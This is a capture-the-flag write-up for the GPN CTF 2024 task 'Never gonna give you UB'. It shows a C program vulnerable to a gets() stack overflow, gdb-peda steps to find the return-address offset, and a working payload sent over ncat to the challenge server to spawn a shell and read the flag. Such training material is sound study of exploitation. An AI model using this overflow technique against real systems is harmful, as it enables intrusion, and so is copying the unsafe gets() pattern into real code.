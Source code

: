 ```yaml
---
ctf-event: GPN CTF 2024
date: 2024-06-01
ctf-team: luxeria
ctf-task: Never gonna give you UB
ctf-category: web
ctf-difficulty: 
---
```

# Never gonna give you UB

## Description

> Can you get this program to do what you want?

## Analysis

Code:
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void scratched_record() {
        printf("Oh no, your record seems scratched :(\n");
        printf("Here's a shell, maybe you can fix it:\n");
        execve("/bin/sh", NULL, NULL);
}

extern char *gets(char *s);

int main() {
        printf("Song rater v0.1\n-------------------\n\n");
        char buf[0xff];
        printf("Please enter your song:\n");
        gets(buf);
        printf("\"%s\" is an excellent choice!\n", buf);
        return 0;
}
```

The goal is to overwrite the buffer `buf`  and jump to the `scratched_record` function in order to start a shell and read the flag.

## Solution

Start binary in GDB (gdb-peda was used to simplify some stuff):
```text
$ gdb ./song_rater
gdb-peda$
```

Create a pattern:
```text
gdb-peda$ pattern_create 400                                                                                                                                   
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATA
AqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A
%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA%VA%tA%WA%uA%XA%vA%YA%wA%ZA%xA%y'
```

Start the program with the generated pattern as input and let it crash:
```text
gdb-peda$ run < <(python -c 'print("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA%VA%tA%WA%uA%XA%vA%YA%wA%ZA%xA%y")')
Starting program: /home/emanuel/gpn22ctf/never-gonna-give-you-ub/song_rater < <(python -c 'print("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA%VA%tA%WA%uA%XA%vA%YA%wA%ZA%xA%y")')
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Song rater v0.1
-------------------

Please enter your song:
"AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA%VA%tA%WA%uA%XA%vA%YA%wA%ZA%xA%y" is an excellent choice!

Program received signal SIGSEGV, Segmentation fault.
```

The stack pointer `RSP` contains an address pointing to the following string: 
```text
RSP: 0x7fffffffdac8 ("HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA%VA%tA%WA%uA%XA%vA%YA%wA%ZA%xA%y")
```

Therefore, it's possible to control the stack pointer value. The controllable offset starts at byte 264:
```text
gdb-peda$ pattern_offset "HA%dA%3A%IA%eA%4"
HA%dA%3A%IA%eA%4 found at offset: 264
```

The `scratched_record` function that starts a shell starts at `0x0000000000401196`:
```text
gdb-peda$ disass scratched_record 
quit
Dump of assembler code for function scratched_record:
   0x0000000000401196 <+0>:     endbr64
   0x000000000040119a <+4>:     push   rbp
[...]
```

Filling the buffer with 263 bytes of `A` and then the address of the `scratched_record` function in order to call it:
```text
gdb-peda$ run < <(python -c 'print("A" * 263 + "\x96\x11\x40\x00\x00\x00\x00\x00")')

Starting program: /home/emanuel/gpn22ctf/never-gonna-give-you-ub/song_rater < <(python -c 'print("A" * 263 + "\x96\x11\x40\x00\x00\x00\x00\x00")')
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Song rater v0.1
-------------------

Please enter your song:
"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA@" is an excellent choice!
Oh no, your record seems scratched :(
Here's a shell, maybe you can fix it:
process 40380 is executing new program: /usr/bin/dash
[Thread debugging using libthread_db enabled]
```

The output shows that the shell was started.

Running the exploit against the target system to get a shell and read the flag:
```text
$ (python -c 'print("A" * 263 + "\x96\x11\x40\x00\x00\x00\x00\x00")'; cat ) | ncat --ssl only-time--gunna-1152.ctf.kitctf.de 443
Song rater v0.1
-------------------

Please enter your song:
"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA@" is an excellent choice!
Oh no, your record seems scratched :(
Here's a shell, maybe you can fix it:
cat /flag
GPNCTF{G00d_n3w5!_1t_l00ks_l1ke_y0u_r3p41r3d_y0ur_disk...}
```